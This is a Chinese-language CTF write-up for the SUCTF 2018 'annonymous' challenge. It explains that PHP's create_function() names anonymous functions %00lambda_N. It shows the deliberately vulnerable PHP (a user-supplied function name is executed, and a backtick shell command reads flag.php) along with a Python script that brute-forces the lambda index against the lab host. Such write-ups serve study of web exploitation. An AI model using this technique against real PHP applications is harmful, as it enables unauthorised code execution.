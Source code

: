 # \[SUCTF 2018]annonymous

## \[SUCTF 2018]annonymous

## 考点

* create\_function()生成的匿名函数是`%00lambda_[0-999]`

## wp

代码如下

```php
 <?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__); 
```

create\_function()这个函数在执行之后，会自动创建一个函数名为`%00lambda_[0-999]` 的函数

```python
import requests
import time
for i in range(0,1000):
    time.sleep(0.1)
    r=requests.get(url=f"http://ee04bc4a-bcac-4e6f-8fa8-e57bdec71e59.node4.buuoj.cn:81/?func_name=%00lambda_{str(i)}")
    if 'flag' in r.text:
        print(r.text)
```

## 小结

1. create\_function()生成的匿名函数是`%00lambda_[0-999]`
